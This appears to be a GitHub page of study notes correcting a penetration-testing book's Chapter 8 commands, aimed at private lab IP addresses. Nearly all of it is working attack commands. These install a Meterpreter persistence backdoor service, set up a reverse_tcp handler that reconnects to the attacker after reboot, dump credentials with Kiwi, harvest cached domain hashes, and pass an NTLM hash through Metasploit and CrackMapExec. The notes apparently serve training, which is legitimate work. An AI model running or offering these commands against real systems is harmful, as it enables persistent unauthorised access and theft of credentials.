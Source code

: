 # Chapter 8 Instructions

## Continue from Chapter 7

### Listing 8.1 Installing the Meterpreter autorun backdoor executable

Book says this

```
run persistence -A -L c:\\ -X -i 30 -p 8443 -r 10.0.10.160
```

Do this instead

```
run exploit/windows/local/persistence -A -L c:\\ -X -i 30 -p 8443 -r 10.0.10.211
```

### COOL WAY

First send the current session into the background and remember the session number

```
background
search platforms:windows persistence
use exploit/windows/local/persistence_service
options # To see all your options
set LHOST 10.0.10.211
set LPORT 1234
set SERVICE_NAME iamahacker
set SERVICE_DESCRIPTION I WAS HERE
set SESSION 1
exploit
```

### Listing 8.2 Reestablishing Meterpreter access automatically after system reboot

```
reboot
```

> Create a new file called anythingyouwant.rc

```
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.0.10.211
set LPORT 1234
run
```

> execture the file by

`msfconsole -r anythingyouwant.rc`

You will be connected to the machine everytime as long as the service is not detected/disabled.

### Listing 8.3 Loading the Mimikatz Meterpreter extension

This won't work anymore

```

load mimikatz
help mimikatz

```

Use this instead

```

load kiwi
help kiwi

```

### Listing 8.4 Retrieving tspkg credentials with Kiwi

```

creds_all

```

### Listing 8.5 Harvesting domain cached credentials

```

run post/windows/gather/smart_hash

```

### Listing 8.9 Passing the hash with Metasploit

```

use auxiliary/scanner/smb/smb_login
set smbuser administrator
set smbpass aad3b435b51404eeaad3b435b51404ee:c1ea09ab1bab83a9c9c1f1c366576737
set smbdomain .
set rhosts 10.0.10.208
set threads 10
run

```

#### Listing 8.10 Using CrackMapExec to pass the hash

```

crackmapexec smb 10.0.10.208 --local-auth -u Administrator -H c1ea09ab1bab83a9c9c1f1c366576737

```

```

```
